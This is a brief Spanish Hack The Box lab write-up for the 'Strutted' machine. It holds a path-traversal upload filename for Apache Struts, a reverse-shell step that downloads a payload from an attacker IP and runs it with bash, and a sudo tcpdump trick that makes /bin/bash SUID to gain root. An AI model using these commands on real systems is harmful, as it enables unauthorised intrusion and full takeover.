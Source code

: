 ```yaml
---
title: "Hack The Box - Strutted"
pubDate: 2025-08-26
description: "Apache Struts,Docker,Java (OpenJDK)."
draft: false
---
```


**IP:** 10.10.11.59

## Stack Tecnológico
- Apache Struts
- Tomcat
- Java (OpenJDK)
- Docker

## Credenciales encontradas
- admin : 
- james :  (SSH)

## Vector de Explotación
- Modificación de campo `top.uploadFileName`:
  ```
  ../../test.asp
  ```

## Reverse Shell
```bash
curl 10.10.15.53 -o /tmp/reverse
bash /tmp/reverse
```

## Escalada de Privilegios
```bash
COMMAND='chmod 4777 /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
bash -p
```
